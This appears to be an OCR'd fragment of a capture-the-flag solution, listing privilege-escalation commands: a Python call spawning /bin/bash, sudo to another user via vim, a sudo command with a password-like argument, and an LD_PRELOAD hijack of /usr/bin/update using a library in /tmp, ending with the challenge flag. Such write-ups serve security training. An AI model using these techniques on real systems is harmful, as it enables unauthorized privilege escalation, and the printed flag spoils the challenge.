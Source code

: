 

python -c import os; os.system("/bin/bash")

/usr/bin/sudo -u globalSystem vim

sudo -u navigationSystem  /usr/bin/update  AloneIsTheBest


 /home/navigationSystem/flag.txt


sudo LD_PRELOAD=/tmp/tata.so -u navigationSystem   --preserve-env=LD_PRELOAD /usr/bin/update

DGSESIEE{44adfb64ff382f6433eeb03ed829afe0}
